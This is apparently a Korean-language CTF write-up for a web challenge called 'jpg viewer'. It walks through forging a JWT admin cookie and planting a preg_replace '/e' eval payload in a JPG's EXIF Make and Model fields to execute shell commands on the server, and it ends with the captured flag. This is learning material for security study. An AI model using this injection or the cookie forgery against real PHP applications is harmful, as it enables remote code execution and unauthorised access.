




# jpg viewer
**Web, 200pts**
> 플래그는 /에 있습니다



파일 업로드가 가능해서 쉘을 업로드하면 될 것 같았다. JPG 파일만 업로드 할 수 있어서 파일 확장자를 우회하여 업로드 해봤는데 PHP 파일은 실행시킬 수 없었다. 소스 코드를 보니 주석 처리된 링크가 있었다.

[코드](src/jpg_viewer/index.php)를 보면서 처음 눈에 들어왔던 것은 `exif_read_data` 함수였다. 이 함수는 이미지 파일로부터 EXIF 헤더의 정보를 읽어 배열로 반환해준다. 코드를 보니 EXIF 정보가 존재하면 출력해주는 부분이 있어서 `exiftool`로 `Model`에 쉘 코드를 입력하여 이미지 파일을 업로드해봤다. 하지만 텍스트로 처리되기 때문에 함수 실행이 불가능했다.



나는 코드를 보면서 `Make` 변수는 사용되지 않고 `preg_replace` 함수가 있는 이유가 이해되지 않았다. 그래서 EXIF와 관련하여 검색을 하다가 EXIF 헤더에 쉘 코드를 삽입할 수 있다는 것을 알았다.

```php
$Make = "/.*/e";
$Model = "eval(base64_decode('ZWNobyBzaGVsbF9leGVjKCdscyAtYWwgLycpOw=='))";

preg_replace($Make, $Model, '');
```

`Make`와 `Model` 변수를 위와 같이 정의하고 코드를 실행시키면 다음과 같이 변환되어 `preg_replace` 함수가 실행된다.

```php
preg_replace("/.*/e", "eval(base64_decode('ZWNobyBzaGVsbF9leGVjKCdscyAtYWwgLycpOw=='))", '');

preg_replace("/.*/e", "eval(echo shell_exec('ls -al /'))", '');
```

`preg_replace` 함수가 실행되면서 첫 번째 인자의 정규 표현식 `e` 옵션은 두 번째 인자에 입력된 값으로 변환되면서 PHP 코드로 취급되도록 하기 때문에 `eval` 함수가 실행된다. 그런데 `preg_replace` 함수를 실행하기 위해서는 `body['admin']` 값이 `true`가 되어야 했다.

```php
require_once __DIR__ . '/jwt.php';
if(!isset($_COOKIE['PHPSESSJWT'])){
    $token = $jwt->hashing(array(
      'admin' => false,
      'iat' => time(),
    ));
    setcookie('PHPSESSJWT', $token, time() + 86400 * 30);
}

...

require_once __DIR__ . '/jwt.php';
$token = $_COOKIE['PHPSESSJWT'];
if ($token) {
    $body = $jwt->dehashing($token);
}
```

`PHPSESSJWT` 쿠키가 생성될 때 `admin`이 `false`로 설정되기 때문에 JWT 형식에 맞춰 값을 수정해줘야 했다. 기존에 저장된 값을 base64로 디코딩하면 다음과 같다.

```
{"alg":"sha256","typ":"JWT"}.{"admin":false,"iat":1582429111}.ccd6a59972b14df9f97c3b5b36bb9495d5511aa98e2031b8d4f64cbad1799265
```

위의 형식에 맞추어 JWT 값을 생성해야 하므로 검색을 통해 [코드](src/jpg_viewer/jwt.php)를 작성하였다. 그렇게 생성된 값으로 `PHPSESSJWT`를 변경해보니 오류가 발생하지 않았다.

```php
if($body['admin']==true){
    $edit = explode('.',$_COOKIE['edit']);
    preg_replace($$edit[0],$$edit[1],$$edit[2]);
}
```

그리고 이 부분을 보면 `edit` 쿠키 값을 `.`을 기준으로 `edit` 변수에 배열로 저장하고 값들이 가변 변수로 `preg_replace` 함수에서 사용된다. 따라서 `Make.Model.` 이라고 `edit` 쿠키를 생성해줘야 다음과 같이 함수가 실행된다.

```php
preg_replace($Make, $Model, '');
```

마지막으로 위에서 설명한 것처럼 JPG 파일의 EXIF 헤더를 수정하여 파일을 업로드하면 `eval` 함수로 인해 값이 실행되는 것을 확인할 수 있다.



그렇게 플래그의 위치를 확인하고 내용을 출력하여 플래그를 획득할 수 있었다.



**TRUST{th1s_1s_1mp0ss1bl3_1n_re4l_w0rld!!!!~}**

---

**References**
- https://blog.naver.com/koromoon/220571547938
- https://blog.ch4n3.me/488